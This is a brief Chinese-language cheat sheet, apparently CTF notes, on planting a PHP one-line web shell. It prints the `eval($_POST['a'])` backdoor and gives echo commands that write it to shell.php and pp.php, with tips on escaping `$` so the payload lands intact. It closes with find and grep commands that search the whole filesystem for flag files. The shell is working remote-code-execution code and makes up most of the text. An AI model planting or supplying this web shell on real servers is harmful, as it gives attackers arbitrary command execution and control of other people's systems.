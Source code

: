 # 一句话木马

```php
<?php eval($_POST['a']);?>
```

通过echo写入

```bash
echo '<?php eval($_POST['a']);?>' > shell.php
```

建议：不要直接写入php文件，因为php文件报错没有日志，不清楚具体原因

1、先写入txt文件

2、访问txt文件，查看是否存在特殊字符编码问题

3、遇到特殊字符一般用 `\` 转译

4、检查无误后写入php文件

```bash
echo '<?php eval($_POST[a]); ?>' > shell.txt
```

输出

```
<?php eval(); ?>
```

此时就需要转移

```bash
echo '<?php eval(\$_POST[a]); ?>' > pp.php
```

# 查找flag

```bash
find / -name "*flag*" > /tmp/res1.txt
grep -r "flag" / > /tmp/res2.txt
grep -r "dasctf{" / > /tmp/res2.txt
```